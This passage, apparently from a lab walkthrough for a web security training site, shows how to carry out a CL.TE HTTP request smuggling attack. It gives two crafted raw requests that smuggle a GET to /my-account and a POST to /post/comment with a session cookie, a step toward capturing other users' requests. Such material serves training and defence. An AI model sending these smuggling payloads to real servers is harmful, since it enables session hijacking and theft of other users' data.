 "Front-end server doesn't support chunked encoding" means this page suffers a
CL.TE type of HTTP request smuggling. Intercept a request to “/”, change the
method to POST and the protocol to "HTTP/1":

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/819625c2f059a4635a2076c4cf634b07.png)

Then substitute the request to "/my-account" for a request to "/post/comment":

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 928
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: session=ttGG2cUnVqyKIgqM36GrG5iprUDMiqhi
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~